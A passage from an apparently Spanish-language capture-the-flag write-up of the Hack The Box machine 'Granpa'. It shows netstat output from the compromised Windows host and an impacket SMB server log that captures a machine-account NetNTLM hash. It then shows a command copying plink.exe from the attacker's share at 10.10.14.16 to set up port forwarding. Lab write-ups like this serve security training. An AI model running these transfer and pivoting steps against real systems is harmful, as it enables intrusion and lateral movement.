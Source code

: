 ```bash
  TCP    10.10.10.14:1030       10.10.14.16:443        CLOSE_WAIT      InHost      
  TCP    10.10.10.14:1033       10.10.14.16:443        ESTABLISHED     InHost      
  TCP    10.10.10.14:1037       10.10.14.16:445        SYN_SENT        InHost      
  TCP    10.10.10.14:1038       10.10.14.16:139        SYN_SENT        InHost      
  TCP    127.0.0.1:1028         0.0.0.0:0              LISTENING       InHost      
  UDP    0.0.0.0:445            *:*                    
  UDP    0.0.0.0:500            *:*                    
  UDP    0.0.0.0:1026           *:*                    
  UDP    0.0.0.0:4500           *:*                    
  UDP    10.10.10.14:123        *:*                    
  UDP    10.10.10.14:137        *:*                    
  UDP    10.10.10.14:138        *:*                    
  UDP    127.0.0.1:123          *:*                    
  UDP    127.0.0.1:1029         *:*                    

C:\WINDOWS\Temp\Privesc>
```

Vemos que tiene el puerto 445 abierto de manera interna, así que vamos a aplicar un *Remote Port Forwarding* con la herramienta [plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) descargando para la arquitectura x86. Nos compartimos un servidor SMB y transferimos el archivo:

```bash
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.14,1041)
[*] AUTHENTICATE_MESSAGE (HTB\GRANPA$,GRANPA)
[*] User GRANPA\GRANPA$ authenticated successfully
[*] GRANPA$::HTB:9b79014814b02ec500000000000000000000000000000000:fb3cb214046af8b85e0b4e269e6cf87ff6bbe6dd226641f0:aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
```

```bash
copy \\10.10.14.16\smbFolder\plink.exe plink.exe
copy \\10.10.14.16\smbFolder\plink.exe plink.exe
        1 file(s) copied.

C:\WINDOWS\Temp\Privesc>
dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\WINDOWS\Temp\Privesc

09/21/2021  05:13 AM    <DIR>          .
09/21/2021  05:13 AM    <DIR>          ..
09/21/2021  05:07 AM           646,384 plink.exe
               1 File(s)        646,384 bytes
               2 Dir(s)   1,317,171,200 bytes free

C:\WINDOWS\Temp\Privesc>
```
